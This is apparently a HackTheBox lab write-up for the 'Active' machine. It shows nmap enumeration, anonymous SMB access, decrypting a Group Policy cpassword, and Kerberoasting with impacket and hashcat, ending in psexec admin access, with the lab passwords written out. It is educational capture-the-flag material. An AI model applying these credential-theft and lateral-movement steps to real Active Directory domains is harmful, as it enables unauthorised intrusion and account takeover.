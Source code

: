 # HackTheBox - Active

## Introduction
This box was on the category of easy god knows why cause i did not feel anything easy about it. However i took a lot of references and helps while solving this one. To be honest, i did not do this one on my own. But it was a mouthful of learning. That being said, let's get into our walkthrough.

### 1. Enumeration
When i joined the box, i got an ip address of `10.10.10.100`. As usual I fired up my terminal and started a `nmap` scan for top ports and all ports.
```bash
> nmap -sC -sV -T4 -oA -oN nmap_initial 10.10.10.100
> nmap -sC -sV -T4 -p- nmap_all_ports 10.10.10.100
```
And while the scans were running i went to see if a website is present at the given url but there wasn't any. Finally our first nmap scan produced some output:

![](images/2021-07-09-15-47-48.png)

Looking at the nmap scan results, we can derive few conclusions:
- DNS service is open on port 53
- Kerberos running on port 88
- LDAP running on port 389
    - LDAP is also providing a domain name *active.htb*
- SMB service running on port 445

We saw that the SMB service is active, i decided to test if some file shares are available to anonymous users.
```bash
> smbclient -L //10.10.10.100
```
and then when asked for password just hit `Enter`. It's gonna do a null authentication or we can say anonymous authentication.

![](images/2021-07-09-15-58-07.png)

Here we can see all the shares we are allowed. Now we don't see which shares we have permissions to access. For this i commonly use `smbmap`.
```bash
> smbmap -H 10.10.10.100
```

![](images/2021-07-09-16-00-40.png)

This lists all the file shares and what permission we have. Looking at the output we can deduce that we only have access to **Replication** directory.
```bash
> smbmap -R Replication -H 10.10.10.100
```
and this lists the contents of **Replication** directory. If we look through this, we see **'Groups.xml'**, that is a group policy file where local account information are stored.

![](images/2021-07-09-16-04-15.png)

```
> smbclient //10.10.10.100/Replication
```

![](images/2021-07-09-16-27-59.png)

Now let's download the file and see the content of the file **Groups.xml**.

```
> get active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml
```
It has downloaded **Groups.xml**.

![](images/2021-07-09-16-36-01.png)

Now viewing the content of the file,

![](images/2021-07-09-16-37-30.png)

we can see this is for account active.htb/SVC_TGS. And we have encrypted password in `cpassword`. So we can use `gpp-decrypt` to crack the hash 

![](images/2021-07-09-16-47-49.png)


and we get the password as `GPPstillStandingStrong2k18`.

### 2. User flag
Now we can use `GetADUsers.py` from `impacket` to see the users in the box:
```bash
> GetADUsers.py -all -dc-ip 10.10.10.100 active.htb/SVC_TGS
```

![](images/2021-07-09-16-56-48.png)

when asked for password, we provide currently found **active.htb/SVC_TGS** user's password i.e. **GPPstillStandingStrong2k18**. And we can see there are 4 users in the box.

Now let's use this user's creds and check if we have more access than anonymous user.
```
> smbmap -d active.htb -u svc_tgs -p GPPstillStandingStrong2k18 -H 10.10.10.100
```

![](images/2021-07-09-17-00-34.png)

Now we have access to more shares. We can do same thing as we did last time for **Users**
```bash
> smbmap -d active.htb -u svc_tgs -p GPPstillStandingStrong2k18 -H 10.10.10.100 -R Users
```

![](images/2021-07-09-17-03-23.png)

and here we find our user flag.

### 3. Root flag
Now if we return to our nmap scan, we will see that we have kerberos running on port 88 and we will go for `kerberoasting`.

Now let's run `GetUserSPNs.py` from impacket to get spn tickets.

![](images/2021-07-09-17-37-17.png)

> Note: i couldn't get this to work because of my time zone.

Now let's save this in a file name **admin**. And we will use hashcat to crack this hash.
```
hashcat -m 13100 admin /path/to/wordlist.txt
```
which will find the output as `Ticketmaster1968`.

Now we can use this credentials with `psexec.py` of impact to have root access on the box:

![](images/2021-07-09-17-55-16.png)

Now we can get the root flag.
